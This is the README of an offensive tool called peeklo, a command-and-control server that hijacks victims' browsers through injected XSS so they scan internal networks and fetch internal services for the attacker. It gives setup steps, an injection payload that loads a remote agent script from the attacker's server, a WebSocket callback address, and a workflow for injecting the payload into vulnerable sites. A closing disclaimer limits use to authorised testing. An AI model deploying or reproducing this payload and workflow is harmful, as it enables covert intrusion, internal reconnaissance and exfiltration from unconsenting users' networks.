 # peeklo

**Version:** v1.0

peeklo is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeklo establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, and exfiltrate data — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and multiple victims  
- Victim’s browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:  
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Log viewer with copy/save functionality  
- Self-signed HTTPS support with auto-generated certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeklo.git
    cd peeklo
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. (If needed) Make scripts executable:

    ```bash
    chmod +x gen-cert.sh start.sh
    ```

4. Generate a self-signed TLS certificate:

    ```bash
    make cert
    ```

5. Run the server:

    ```bash
    make run
    ```

6. Open your browser and access the control panel:

    ```
    https://SERVER-IP:8443/static/control.html
    ```

7. Inject the XSS payload (example):

    ```html
    <script src="https://SERVER-IP:8443/static/agent.js"></script>
    ```

---

## Usage

### Control Panel

- Choose a connected victim from the dropdown  
- Input a manual URL to fetch via the victim  
- Specify an IP range (e.g. `192.168.1.10-20` or `192.168.1.0/24`) and ports (e.g. `80,8080,3000-3010`) to scan  
- Results will appear in the log viewer:  
  - HTTP status  
  - Body preview 
- You can copy the log or save it as `.txt` or `.json`  

---

### SERVER-IP Placeholder

In both `agent.js` and `control.html`, the WebSocket connection points to:

```javascript
wss://SERVER-IP:8443/ws
```

**Before deploying**, replace `SERVER-IP` with your actual IP address (e.g. `192.168.1.12` or a public IP/domain). This ensures the victim browser and control panel can communicate with your server over HTTPS.

---


## Project Structure

```
peeklo/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Inject the payload into a vulnerable web application  
2. Victim’s browser loads the agent and connects to your peeklo server  
3. From the control panel, you issue commands to fetch URLs or scan targets  
4. peeklo logs and returns the content of internal services  

---

## Use Cases

- Internal network exploration through browser footholds  
- LAN service enumeration from inside the victim’s network   

---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeklo outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

- **b3rito** – [https://github.com/b3rito](https://github.com/b3rito)  
- **GioPpeTto**
